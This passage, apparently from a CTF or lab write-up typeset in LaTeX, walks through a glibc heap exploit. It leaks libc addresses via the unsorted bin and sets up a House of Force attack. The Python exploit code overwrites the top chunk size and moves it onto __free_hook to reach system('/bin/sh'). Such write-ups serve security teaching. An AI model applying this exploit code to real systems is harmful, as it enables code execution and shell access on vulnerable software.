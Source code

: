 \documentclass{article}
\numberwithin{equation}{subsection}
\begin{document}
\noindent
The unsorted bin is a double linked list that follows a \textbf{FIFO} policy, hence, in the \texttt{bk} field of \texttt{P\_8} we can find a pointer to the \texttt{main\_arena}, located within the \texttt{.data} section of libc. This means that, reallocating these articles and then printing the content of \texttt{P\_8} we can leak a libc address, from line \ref{line:p-reallocate-small-chunks} on. Finally, as done for the leak of the heap, we parse the output and we compute useful addresses, code \ref{lst:leak-libc-addr}.\newline
\begin{minipage}{\textwidth}
\centering
\lstset{style=consolestyle}
\begin{lstlisting}[caption={Leaking libc addresses.}, 
captionpos=b,label={lst:leak-libc-addr}]
xman@ubuntu:/$ ./x.py
...
[2]-Leaking libc addresses...
        Libc base address:  0x7ffff79e2000
        Free_hook address: 0x7ffff7dcf8e8
\end{lstlisting}
\end{minipage}
\subsubsection{Prepare House of Force}
This is the crucial part, code \ref{lst:house-of-force}. To start, we evaluate the \texttt{malloc\_size} as shown in section \ref{house-of-force}. Then we prepare a payload which is able to overwrite the \texttt{top\_chunk} size, line \ref{line:p-padding-and-payload}.\newline
\begin{minipage}{\textwidth}
\centering
\lstset{style=pythonstyle}
\begin{lstlisting}[caption={House of force setup with python script.},captionpos=b,label={lst:house-of-force}]
    # House of force
    print("[3]-Preparing house of force...")
    malloc_size = (libc.symbols['__free_hook'] - top_chunk - 0x20)~\label{line:p-malloc-size-evaluation}~
    payload = b"\x00"*0x158 + p64(0xffffffffffffffff) + b"\x00"*0x10~\label{line:p-padding-and-payload}~
    
    # Overwrite the top chunk size and set the article name to '/bin/sh\x00'
    print("[4]-Overwriting the top chunk size...")
    edit_article(7, "/bin/sh\x00", len(payload) + 0x20, payload)~\label{line:p-heap-overflow}~
    
    # To free up some space
    delete_article(1)~\label{line:p-free-space}~
    delete_article(3)
    
    # Moving the top_chunk
    new_article(b"whatever", malloc_size, b"WHATEVER")~\label{line:p-moving-top-chunk}~
\end{lstlisting}
\end{minipage}
We can finally exploit the \emph{heap overflow} vulnerability, setting also the name of the chunk to prepare the future parameter of the \texttt{system} function, line \ref{line:p-heap-overflow}. We have already allocated the maximum amount of available articles, that is 10. Before doing anything else, we have to free up some space, line \ref{line:p-free-space}.
Finally, we can move the the top chunk to the \texttt{\_\_free\_hook} location, line \ref{line:p-moving-top-chunk}.
\end{document}
